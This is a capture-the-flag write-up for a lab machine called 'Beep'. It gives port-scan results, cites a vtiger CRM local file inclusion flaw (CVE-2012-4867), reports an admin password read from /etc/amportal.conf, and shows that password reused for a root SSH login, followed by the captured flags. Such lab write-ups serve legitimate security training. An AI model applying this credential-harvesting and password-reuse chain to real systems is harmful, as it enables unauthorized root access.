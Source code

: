 # Beep

## SYN Scan
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)

Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
```

## Elastix

![login](./screenshots/login_page.png)

Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.

### IP PBX
An IP PBX is a system that connects telephone extensions to the public switched telephone network and provides internal communication for a business. An IP PBX is a PBX system with IP connectivity and may provide additional audio, video, or instant messaging communication utilizing the TCP/IP protocol stack.


## RoundCube Webmail
`/mail`

![webmail](./screenshots/mail_login_page.png)

## FreeBPX (HylaFAX) User Portal
`/recordings`

![hylafax_login_page](./screenshots/freebpx_login_page.png)

## FreeBPX (HylaFAX) Admin Panel
`/admin`

![hylafax_admin_panel](./screenshots/freebpx_admin_panel.png)

## Webmin (MinServ)
Port: `10000`

![miniserv](./screenshots/webmin_login_page.png)

https://doxfer.webmin.com/Webmin/Installing_Webmin =>
**You should be able to login as root, using the same password as the root Unix user on your Linux system. However, if you change the Unix root password in future the Webmin root user will not change.**

## vtiger CRM
![vtigercrm](./screenshots/vtigercrm.png)

## Local File Inclusion
`vtiger CRM 5.1.0` is vulnerable to local file inclusion.

CVE => 2012-4867

https://www.exploit-db.com/exploits/18770

![file_inclusion](./screenshots/vtigercrm_file_inc.png)

## The User Flag

![user_flag](./screenshots/user_flag.png)

```
09176c93dc65a9a44111e63a5f790e79
```

## Elastix Admin Password
Found admin's password in `/etc/amportal.conf`.

![admin_pass](./screenshots/admin_pass.png)

```
admin: jEhdIekWmdjE
```

## SSH Using Elastix Admin Password
```
root: jEhdIekWmdjE
```

```
$ ssh root@10.10.10.7 -o StrictHostKeyChecking=no -oKexAlgorithms=+diffie-hellman-group1-sha1
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

## The Root Flag
```
[root@beep ~]# cd /root
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt
3d67afce45e84d7f06ce259fabcaee9a
```
